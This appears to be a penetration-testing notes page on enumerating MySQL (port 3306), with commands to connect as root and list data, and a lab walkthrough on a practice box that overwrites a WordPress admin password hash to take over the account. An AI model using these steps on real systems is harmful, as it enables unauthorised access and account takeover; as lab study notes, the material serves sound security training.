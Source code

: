```yaml
---
layout: default
title: 3306 | MYSQL
parent: Service Enumeration
nav_order: 6
---
```


# 3306 | MYSQL

---

## Connect to Remote MySQL Server

```bash
mysql -h 192.71.145.3 -u root
```

### Show Databases

```sql
show databases;
```

### Use Table and Select Records

```sql
use books;
select count(*) from authors;
```

## Change Admin Password

We have root access to the _wp_users_ table and can change the admin password to an MD5 hash.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sunsetmidnight]
└─$ echo -n password | md5sum
5f4dcc3b5aa765d61d8327deb882cf99  -

# Change the admin user password to the MD5 hash above

MariaDB [wordpress_db]> UPDATE wp_users SET user_pass="5f4dcc3b5aa765d61d8327deb882cf99" WHERE ID=1;
Query OK, 1 row affected (0.059 sec)
Rows matched: 1  Changed: 1  Warnings: 0

# Validate the admin user hash has changed to the value we set

MariaDB [wordpress_db]> select * from wp_users;
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.056 sec)



```
